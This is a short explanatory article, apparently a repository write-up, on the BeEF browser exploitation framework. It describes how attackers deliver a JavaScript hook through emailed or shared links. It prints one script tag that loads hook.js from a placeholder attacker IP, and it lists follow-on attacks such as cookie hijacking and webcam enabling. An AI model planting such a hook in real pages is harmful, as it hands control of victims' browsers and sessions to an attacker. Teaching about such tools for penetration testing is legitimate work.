 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers and vulnerabilities. BeEF which is the short term of Browser Exploitation Framework was initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface[2]. 
## What BeEF Does?
It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4].
```javascript
<script src="http://{ATTACKER’S IP}:3000/hook.js" type="text/javascript"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, and many other commands.

[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/

